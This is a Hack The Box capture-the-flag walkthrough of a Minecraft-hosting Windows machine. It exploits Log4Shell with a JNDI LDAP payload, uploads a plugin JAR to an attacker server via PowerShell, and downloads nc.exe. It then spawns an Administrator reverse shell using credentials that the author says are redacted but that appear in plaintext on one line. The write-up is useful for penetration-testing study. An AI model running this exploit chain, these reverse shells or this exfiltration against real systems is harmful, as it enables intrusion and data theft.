

Welcome to a comprehensive walkthrough of an Easy level machine in Hack The Box's Seasonal Challenges. Despite its classification, this challenge proves to be more of a medium-level difficulty, particularly if you're not using a pwnbox. 


Our journey begins with an initial reconnaissance phase. Using the powerful network scanning tool nmap, we conduct a scan to identify open ports and services:

```bash
nmap -v -T4 10.10.10.10 --min-rate 5000  -Pn -p- 
```

- `-v`: Increased verbosity for detailed scan output.
- `-T4`: Set timing template for faster scanning.
- `--min-rate 5000`: Specified the minimum packet-per-second rate, optimizing scan speed.
- `-Pn`: Skipped host discovery, treating all hosts as online.
- `-p-`: Scanned all 65535 ports, maximizing service discovery.


The scan reveals two crucial open ports: port 80 hosting a website related to Minecraft and port 25565 hosting the actual Minecraft server.

```plaintext
[] Nmap: PORT      STATE SERVICE
[] Nmap: 80/tcp    open  http
[] Nmap: 25565/tcp open  minecraft
[] Nmap: Read data files from: /usr/bin/../share/nmap
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in
```


We can attempt to connect to this server for more information. I used this repository [MCCTeam/Minecraft-Console-Client](https://github.com/MCCTeam/Minecraft-Console-Client/releases) to connect to the Minecraft service. MCC is a third-party tool used to interact with Minecraft servers via the command line.

After connecting, we get the Minecraft version installed. We can search for related application vulnerabilities on the internet. This application, like many others, utilizes the Java logging library.

We could further observe that this service is vulnerable to CVE-2021-44228. This vulnerability can be exploited to execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.

CVE-2021-44228, a critical vulnerability within the Java logging library, allows arbitrary code execution. Exploiting it involves crafting a payload to manipulate LDAP references, establishing a reverse shell into Crafty's system.

I found this repository [kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc/tree/main), which can be used to exploit the vulnerability.

It has a single line use, which sets up the HTTP server, and LDAP referrer and the Java class payload to upload and get us a reverse shell when executed.

```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
```

To make this exploit work, we need to download the relevant dependencies as mentioned in the exploit GitHub page:

```bash
pip install -r requirements.txt
```

Get the compatible version of Java, i.e., '8u20'. Extract and save it with the name 'jdk1.8.0_20' in the same path as that of poc.py file. [Java SE 8 Archive Downloads](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)

Go to the downloaded POC folder and use this command to download the file (for Linux 64-bit systems):

```bash
wget -c --no-cookies --no-check-certificate --header "Cookie: oraclelicense=accept-securebackup-cookie" https://download.oracle.com/otn/java/jdk/8u202-b08/1961070e4c9b4e26a04e7f5a083f551e/jdk-8u202-linux-x64.tar.gz
```

After installing all the dependencies, initiate the Minecraft client to connect to the server:

```bash
┌──(root💀kali)-[/home/kali/Minecraft-Console-Client]
└─# ./MinecraftClient-20240130-245-linux-x64 <username>
```




(Note: Press enter when it prompts for a password, as in setting no password. Input server IP (HTB target IP), and we should be connected to the server)

[start netcat listener in 2nd tab]

```bash
nc -nvlp 9001
```

[Execute the POC script in the third tab]

```bash
$ python3 poc.py --userip 10.10.10.10 --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit Java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://10.10.10.10:1389/a}

Listening on 10.10.10.10:1389
```

(If you are connected to HTB VPN, be sure to select the IP associated with the HTB VPN in `--userip`)

Now we need to send this command in the Minecraft console:

```bash
${jndi:ldap://10.10.10.10:1389/a}
```

After sending this command, we receive a reverse shell on our netcat listener. We could see a LDAP redirect and the HTTP 'GET' request to download and execute the payload 'Exploit.class' for the initial foothold.


We can do a few checks on the system to view files, assessable directories, and current privileges.


We've got foothold as a service account `crafty\svc_minecraft` and landed in a Minecraft service directory `C:\users\svc_minecraft\server` . Viewing the files and paths for the Minecraft service hosted, we see few JAR files, and one of them is in the `\plugins` path.


We need to retrieve those files and check what all data we can get.

For exfiltrating the file from the victim machine, we can do as follows:

Note: The victim host doesn't have a firewall or antivirus configured.

Setup a post HTTP server and host it on the attacker machine:

```bash
sudo python3 SimpleHTTPServerWithUpload.py -b 10.10.10.10 1234
```

On the victim machine, we can use PowerShell to upload the file to the server.

Note: Navigate to the file where the file is located and execute this, or provide the complete file path.

Start PowerShell:

```bash
powershell -ep bypass
```

Upload the file to the server:

```bash
powershell (New-Object System.Net.Webclient).UploadFile('http://10.10.10.10:1234/', 'playercounter-1.0-SNAPSHOT.jar')
```

Verify by checking file hashes on both hosts to check if the file was transferred successfully:

Check file hash on PowerShell (Victim):

```bash
Get-FileHash c:\users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar -Algorithm MD5
```
```plaintext
Algorithm       Hash                                                                   Path                            
---------       ----                                                                   ----                            
MD5             349F6584E18CD85FC9E014DA154EFE03                                       C:\users\svc_minecraft\server...
```

On attacker:

```bash
┌──(kali㉿kali)-[~/SimpleHTTPServerWithUpload]
└─$ md5sum playercounter-1.0-SNAPSHOT.jar 
349f6584e18cd85fc9e014da154efe03  playercounter-1.0-SNAPSHOT.jar
```

We can extract and view the contents, and we could also view these files on any online Java decompiler.

I used [https://www.decompiler.com/](https://www.decompiler.com/)

Reviewing the files, we notice the authentication pattern, consisting of IP, port, and password. We could find one misconfigured test file with the admin credentials of the 'Administrator' account.

We still have low privileges on the host, and we don't have any other running services where this credential can be leveraged.

With the reverse shell already established, we can attempt `runas /user:administrator`, but this method is ineffective as the shell is non-interactive.


>On the attacker machine, we'll host the executable directory containing nc.exe for HTTP download.

```bash
└─$ sudo python3 -m http.server 80                       
sudo: unable to resolve host kali: Name or service not known
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And initiate a netcat listener for the shell with administrative privileges.

```bash
nc -nvlp 4444
```

>On the victim machine

We'll use PowerShell, capable of storing values in declared variables.

We create a temp directory, download the hosted netcat binary, and execute it with administrative privileges to get a reverse shell with elevated privileges on the attacker machine

```PowerShell
C:\users\svc_minecraft\server\plugins> cd C:\
C:\> 
C:\>mkdir temp
mkdir temp

C:\>cd temp
cd temp

C:\temp>powershell -ep bypass
powershell -ep bypass
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\temp> wget http://10.10.10.10:80/nc.exe -o nc.exe        
wget http://10.10.10.10:80/nc.exe -o nc.exe
PS C:\temp> ls
ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/13/2024   1:50 AM          59392 nc.exe                                                                


PS C:\temp> $secpasswd = ConvertTo-SecureString "s67u84zKq8IXw" -AsPlainText -Force
$secpasswd = ConvertTo-SecureString "<Redacted>" -AsPlainText -Force
PS C:\temp> $mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
PS C:\temp> Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 10.10.10.10 4444 -e cmd.exe" -Credential $mycreds
Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 10.10.10.10 4444 -e cmd.exe" -Credential $mycreds
PS C:\temp> 
```

-- the credentials are redacted, for you to find!!

>On the attacker machine, we successfully get an administrative reverse shell, which can be further exploited to get a meterpreter shell, dump hashes navigate to the user administrator directory to retrieve the root flag!


